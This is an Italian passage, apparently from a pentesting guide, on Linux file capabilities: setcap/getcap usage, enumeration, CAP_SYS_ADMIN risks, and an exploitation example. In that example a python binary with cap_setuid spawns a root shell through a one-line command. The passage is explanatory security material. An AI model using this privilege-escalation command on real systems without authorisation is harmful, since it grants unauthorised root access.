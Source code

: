 Le capacità sono utili quando **vuoi limitare i tuoi processi dopo aver eseguito operazioni privilegiate** (ad esempio, dopo aver impostato chroot e collegato a un socket). Tuttavia, possono essere sfruttate passando loro comandi o argomenti malevoli che vengono poi eseguiti come root.

Puoi forzare le capacità sui programmi usando `setcap` e interrogarle usando `getcap`:
```bash
#Set Capability
setcap cap_net_raw+ep /sbin/ping

#Get Capability
getcap /sbin/ping
/sbin/ping = cap_net_raw+ep
```
Il `+ep` significa che stai aggiungendo la capacità (“-” la rimuoverebbe) come Efficace e Permessa.

Per identificare i programmi in un sistema o in una cartella con capacità:
```bash
getcap -r / 2>/dev/null
```
### Esempio di sfruttamento

Nell'esempio seguente, il binario `/usr/bin/python2.6` è stato trovato vulnerabile a privesc:
```bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

#Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
**Capabilities** necessarie per `tcpdump` per **consentire a qualsiasi utente di sniffare pacchetti**:
```bash
setcap cap_net_raw,cap_net_admin=eip /usr/sbin/tcpdump
getcap /usr/sbin/tcpdump
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip
```
### Il caso speciale delle capacità "vuote"

[From the docs](https://man7.org/linux/man-pages/man7/capabilities.7.html): Nota che è possibile assegnare set di capacità vuoti a un file di programma, e quindi è possibile creare un programma set-user-ID-root che cambia l'ID utente effettivo e salvato del processo che esegue il programma a 0, ma non conferisce alcuna capacità a quel processo. In altre parole, se hai un binario che:

1. non è di proprietà di root
2. non ha bit `SUID`/`SGID` impostati
3. ha set di capacità vuote (ad es.: `getcap myelf` restituisce `myelf =ep`)

allora **quel binario verrà eseguito come root**.

## CAP_SYS_ADMIN

**[`CAP_SYS_ADMIN`](https://man7.org/linux/man-pages/man7/capabilities.7.html)** è una capacità Linux altamente potente, spesso equiparata a un livello quasi root a causa dei suoi ampi **privilegi amministrativi**, come il montaggio di dispositivi o la manipolazione delle funzionalità del kernel. Sebbene sia indispensabile per i contenitori che simulano interi sistemi, **`CAP_SYS_ADMIN` presenta sfide significative per la sicurezza**, specialmente negli ambienti containerizzati, a causa del suo potenziale per l'escalation dei privilegi e il compromesso del sistema. Pertanto, il suo utilizzo richiede valutazioni di sicurezza rigorose e una gestione cauta, con una forte preferenza per la rimozione di questa capacità nei contenitori specifici per le applicazioni per aderire al **principio del minimo privilegio** e ridurre al minimo la superficie di attacco.
